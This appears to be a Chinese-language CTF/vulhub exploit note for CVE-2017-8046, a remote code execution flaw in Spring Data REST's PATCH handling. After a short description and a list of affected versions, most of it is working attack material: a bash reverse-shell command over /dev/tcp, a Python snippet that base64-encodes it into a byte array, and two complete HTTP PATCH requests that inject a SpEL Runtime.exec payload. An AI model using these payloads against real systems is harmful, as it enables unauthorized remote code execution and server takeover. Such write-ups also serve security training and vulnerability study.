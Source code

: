 CVE-2017-8046
Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。


Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version ≤ 2.0.0M4
Spring Data release trains < Kay-RC3

特征spring，有/api目录
或者直接形如响应：
```
{
"_links": {
"people": {
"href": "https://xx/api/people{?page,size,sort}",
"templated": true
}
```

漏洞利用
```
bash -i >& /dev/tcp/ip/port 0>&1
base64一下：

# 自己改弹shell的命令
payload = b'bash -c {echo,YmFzaCAtaSAmPi9kZXYvdGNwL3gueC54LngvMjMzMyA8JjE=}|{base64,-d}|{bash,-i}'

# 将payload转换为字节码字符串
bytecode = ','.join(str(i) for i in list(payload))

# 打印字节码字符串
print(bytecode)
```
```
PATCH /api/people/1 HTTP/1.1
Host: 81f61eb8-42bb-4423-824c-88573a92ebaa.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 440

[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{上面生成的一串数字}))/lastName",
        "value": "vulhub"
    }
]
```

```
PATCH /customers/1 HTTP/1.1
Host: 192.168.101.133:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{9}))/lastname", "value": "vulhub" }]
```